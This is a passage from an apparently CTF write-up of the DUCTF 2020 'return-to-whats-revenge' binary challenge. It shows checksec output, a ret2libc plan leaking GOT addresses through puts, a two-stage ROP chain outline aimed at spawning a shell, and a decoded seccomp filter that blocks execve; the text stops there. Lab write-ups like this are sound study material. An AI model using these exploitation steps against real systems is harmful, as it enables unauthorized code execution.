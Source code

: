 ## The Exploit
Let's try a classic ret2libc attack. First, we can see from both `ghidra`'s decompilation of the `vuln` function and from `checksec` (a utility included in `pwntools`) that there's no stack canary:
```
[*] '/ctf/ductf20/return-to-whats-revenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We can also see that it has PIE disabled and the program always loads into memory with a base address of 0x400000. So, lets call `puts@plt` on a couple global offset table entries (namely `__libc_start_main@got` and `alarm@got`) to leak their addresses. Next, we can paste these into a [libc database](https://libc.nullbyte.cat/) and find the challenge server is using `libc6_2.27-3ubuntu1_amd64.so`.

From here we can build our exploit to leak a libc address, then use that address to calculate others and use them in a second payload:
```python
# payload 1 (the leak)
pop rdi ; ret
__libc_start_main@got
puts@plt
main # come back around for a second payload using the initial leak

# payload 2 (the shell)
pop rdi ; ret
binsh_string # found in libc
execve # in libc
```

Aaaaaaand... `SYGSIS`??

## The Program - Take 2
So, the program crashed with a `SYGSIS, Bad system call`. Stepping through the ROPchain in `gdb` we find that this crash occurs at this instruction:
```
<execve+5>     syscall
```
We aren't allowed to use the `execve` syscall? After searching up a few datatypes found in the `sandbox` function, I found something called [seccomp](https://en.wikipedia.org/wiki/Seccomp). Basically, this allows the program to choose which syscalls to allow and which ones to block.

Which syscalls *are* we allowed to use? I found a utility on GitHub called [seccomp-tools](https://github.com/david942j/seccomp-tools) which, given the binary, can find the syscall filter (in `sandbox`) and decode it. So let's try it:
```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```